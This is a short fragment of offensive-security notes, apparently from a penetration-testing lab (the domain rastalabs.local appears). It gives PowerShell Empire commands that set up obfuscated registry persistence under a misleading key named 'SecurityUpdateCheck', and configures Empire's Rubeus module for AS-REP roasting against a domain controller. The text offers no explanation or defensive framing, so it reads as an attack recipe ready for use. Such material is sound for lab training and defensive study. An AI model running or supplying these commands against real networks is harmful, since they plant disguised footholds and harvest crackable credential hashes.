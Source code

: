 ```
usemodule powershell/persistence/userland/registry
set Agent <AGENT_ID>
set Listener http
set KeyName SecurityUpdateCheck
set RegPath HKCU:Software\\Microsoft\\Windows\\CurrentVersion\\GameDVR\\SecurityDebugCheck
set Obfuscate True
```

### Empire AS-REP Roast&#x20;

```
usemodule rubeus
┌Record Options────────────────────────────────┬──────────┬────────────────────────────────────┐
│ Name    │ Value                              │ Required │ Description                        │
├─────────┼────────────────────────────────────┼──────────┼────────────────────────────────────┤
│ Agent   │ R5CT8N7S                           │ True     │ Agent to run module on.            │
├─────────┼────────────────────────────────────┼──────────┼────────────────────────────────────┤
│ Command │ asreproast                         │ False    │ Use available Rubeus commands as a │
│         │ /spn:ldap/dc01.rastalabs.local/ras │          │ one-liner.                         │
│         │ talabs.local                       │          │                                    │
└─────────┴────────────────────────────────────┴──────────┴────────────────────────────────────┘
```

